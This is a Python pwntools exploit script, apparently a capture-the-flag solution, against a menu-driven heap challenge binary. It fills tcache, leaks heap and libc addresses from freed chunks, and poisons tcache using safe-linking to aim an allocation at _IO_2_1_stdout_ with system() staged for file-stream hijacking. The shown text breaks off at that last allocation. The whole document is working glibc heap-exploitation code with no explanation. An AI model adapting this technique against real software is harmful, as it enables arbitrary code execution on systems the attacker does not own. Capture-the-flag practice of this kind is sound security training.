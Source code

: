 ```python
port=int(nc.split(" ")[2])
host=nc.split(" ")[1]

############### remote or local ###############
if local>1:
        p=remote(host,port)
else:
        p=process([exe.path])

############### helper functions ##############
def send():
        pass

def alloc(index,size,payload):
        p.recvuntil("Enter your choice:")
        p.sendline("1")
        p.recvuntil("Enter the index: ")
        p.sendline(str(index).encode())
        p.recvuntil("How big is the cigarette ? ")
        p.sendline(str(size).encode())
        p.recvuntil("sing while rolling it:")
        p.send(payload)

def free(index):
        p.recvuntil("Enter your choice:")
        p.sendline("2")
        p.recvuntil("Enter the index: ")
        p.sendline(str(index).encode())

def show():
        p.recvuntil("Enter your choice:")
        p.sendline("3")
############### main exploit    ###############


for i in range(10):
        alloc(i,0xe8,b"aaa")
for i in range(7):
        free(i)

free(8)
free(7)

show()

p.recvuntil("[0] You sung: ")
heap=u64(p.recv(5).ljust(8,b"\x00")) << 12
log.info(hex(heap))

p.recvuntil("[7] You sung: ")
libc.address=u64(p.recv(6).ljust(8,b"\x00"))-0x203b20
log.info(hex(libc.address))


for i in range(6):
        alloc(0x10,0xe8,p64(heap+0x390-0x68+8)+p64(libc.symbols["system"]))
free(8)

target=libc.symbols["_IO_2_1_stdout_"]
alloc(0x11,0x100,b"x"*0xe0+p64(0)+p64(0xf0)+p64(target^(heap>>12)))
#debug()
alloc(0x12,0xe8,p64(0))  # this

```